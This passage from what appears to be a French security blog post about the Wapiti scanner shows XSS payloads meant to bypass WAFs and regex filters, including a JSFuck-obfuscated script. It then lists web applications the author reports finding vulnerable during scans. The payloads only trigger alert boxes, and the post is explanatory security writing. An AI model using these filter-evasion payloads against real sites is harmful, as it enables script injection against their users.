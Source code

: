 Les deux cas suivants permettent de passer certains WAF ([Web Application Firewall](https://fr.wikipedia.org/wiki/Web_application_firewall))  

```html
<details open ontoggle=confirm(/__XSS__/)>
```

```html
<object data=javascript:alert(/__XSS__/)/>
```

Et enfin le petit dernier (ou plutôt le grand) passe à travers certaines vérifications par expressions régulières. Il n'est pas soumis aux changements de casse et a tendance aussi à se retrouver dans des messages d'erreur SQL :  

```html
<script>[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()</script>
```

Vulnérabilités retrouvées ou découvertes
----------------------------------------

Mes scans n'étaient pas basés sur des dorks toutefois j'ai pu retrouver des vulnérabilités connues lors de mes scans. De quoi démontrer l'efficacité de *Wapiti* pour découvrir des vulnérabilités.  

C'est difficile de faire une liste exhaustive des applications web faillibles que j'ai croisé, mais j'ai notamment croisé :  

* Wordpress 1.2
* WP-Solr (plugin wordpress)
* Archon
* htsearch (ht://Dig)
* TWiki
* SPIP (XSS et Open Redirect)
* MajorCool (Majordomo)
* Jenzabar
* Shibboleth (Open Redirect lié à un défaut de configuration)
* uPortal
* Lon-Capa
* WP Mimbo Pro (plugin wordpress)
* DSpace (DuraSpace)
* Koha

Ainsi que des nombreux thèmes et plugins pour ces CMS bien connus (*Wordpress*, *Drupal*, *Joomla*)  

